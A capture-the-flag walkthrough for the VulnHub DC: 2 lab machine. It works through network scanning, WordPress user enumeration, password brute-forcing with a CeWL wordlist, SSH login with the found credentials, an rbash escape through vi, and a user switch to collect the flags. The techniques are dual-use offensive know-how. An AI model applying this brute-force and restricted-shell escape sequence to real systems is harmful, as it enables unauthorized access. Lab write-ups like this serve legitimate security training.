::::::::::::::::::::::::::::::: page
# DC: 2 {#dc-2 .title}

\

## 

## DC: 2

- **[DC: 2]{style="color:#663e0e;"}** :-

<!-- -->

- Download the machine : <https://www.vulnhub.com/entry/dc-2,311/>



- Now unzip the file .
- Open ova file .
- Then click finish .
- Start the machine .

1.  [Network Scanning]{style="color:#3584e4;"} :

- Find the machine IP :

::: codebox
    nmap -sn 192.168.2.0/24
:::



- Run nmap master command :

::: codebox
    nmap -v -Pn -sT -sV -sC -A -O -p- 192.168.2.248
:::



- Find available port in the machine ( Optional ) :

::: codebox
    nmap -v -p- 192.168.2.248
:::

- 

::: codebox
    nmap -sC -sV -A 192.168.2.248
:::

- This command runs an aggressive scan and uses the http-enum script to
  identify potential CGI directories .

::: codebox
    nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.2.248
:::



1.  [Web Enumeration]{style="color:#3584e4;"} :

- Entry ip in hosts file :

::: codebox
    nano /etc/hosts
:::



- Now call the host in browser : <http://dc-2/>
  <http://dc-2/wp-login.php>

<!-- -->

- Run wp-scan to find the username :

::: codebox
    wpscan --url http://dc-2 --enumerate u
:::



- Directory brute-force :

::: codebox
    gobuster dir -u http://dc-2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
:::



- Visit index.php file :



- Also visit the flag file : <http://dc-2/index.php/flag/>



- Run the CeWL command to make a wordlist :

::: codebox
    cewl http://dc-2/ > passwords.txt
:::

- Find username take in file :

::: codebox
    nano users.txt
:::



- Password Brute-force :

::: codebox
    wpscan --url http://dc-2/ -U users.txt -P passwords.txt
:::



- Found Username and Password :

::: codebox
    jerry : adipiscing
    tom : parturient
:::

- Now login worpress : <http://dc-2/wp-login.php>





1.  [SSH Access on port 7744]{style="color:#3584e4;"} :

- SSH login with tom user :

::: codebox
    ssh tom@192.168.2.248 -p 7744
:::

::: codebox
    Username : tom
    Password : parturient
:::



- Shell Identify :

::: codebox
    echo $SHELL
:::



- Read the flag3.txt file :

::: codebox
    less flag3.txt
:::

Find the content :

::: codebox
    Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.
:::

 Press q to exit the file .

- Escaping rbash Using Vi :

1.  Start Vi :

::: codebox
    vi
:::

1.  Ensure You Are in Command Mode .
2.  If you see : \-- INSERT \--
3.  Press : Esc
4.  This returns Vi to command mode.
5.  Set Bash as the Shell :
6.  Type the command inside Vi :

::: codebox
    :set shell=/bin/bash 
:::

- Press Enter.
- Purpose : This changes Vi\'s shell setting from the default shell to
  /bin/bash.
- Spawn the Shell :
- Inside Vi, type :

::: codebox
    :shell 
:::

- Press Enter.

<!-- -->

- Add standard binary directories to the PATH variable :

::: codebox
    export PATH=/bin:/usr/bin:$PATH
:::

- Change the SHELL environment variable to Bash :

::: codebox
    export SHELL=/bin/bash
:::

- Verify the shell :

::: codebox
    echo $SHELL
:::



- Now switch the jerry user :

::: codebox
    su jerry
:::

::: codebox
    Username : jerry
    Password : adipiscing
:::





- After switch the jerry user then navigate the directory :

::: codebox
    cd /home/jerry
:::

- 
- Check the file list :

::: codebox
    ls
:::

- Read the file :

::: codebox
    cat flag4.txt
:::


:::::::::::::::::::::::::::::::
